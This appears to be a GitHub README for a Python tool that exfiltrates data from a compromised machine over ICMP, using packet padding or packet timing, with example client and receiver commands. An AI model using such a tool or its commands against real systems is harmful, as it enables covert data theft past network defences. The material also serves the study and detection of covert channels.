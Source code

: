 
<div align="center">
<h1>ICMP_TUNNELING</h1>

Python-based tool to exfiltrate data through ICMP, supports multiple modes of operation and exfiltration
</div>

<div align="center">
<h2>Usage</h2>
</div>

The tool consists of two scripts, one to be executed from the compromised machine (`client.py`) and the other from the attacker's (`receiver.py`).
There are two methods of exfiltration:

* **Data-based**: exfils the information on the padding bytes of each ICMP packet.
* **Time-based**: the information is transmitted via the frquence of ICMP packets, each of which is a simple packet with no information.

More modes of operation will be researched and added soon.

<div align="center">
<h2></h2>
</div>

The data can be transfered in different ways:

* **Strings** (`-i` switch)
* **Files** (`-f` switch)
* **Shell** (to be implemented soon)

<div align="center">
<h2>Example usage</h2>
</div>

**Client**

```
==> python client.py -d 127.0.0.1 -i "Secret message"
[*] Destination of data: 127.0.0.1
[*] Sending encoded message: "Secret message"
[*] Message sent to 127.0.0.1
```

**Server**

```
==> python receiver.py -i lo
[*] Started listener on interface: lo
[*] Listening mode: 1
[*] Buf length   : 64
[*] Received data: "Secret message"
```


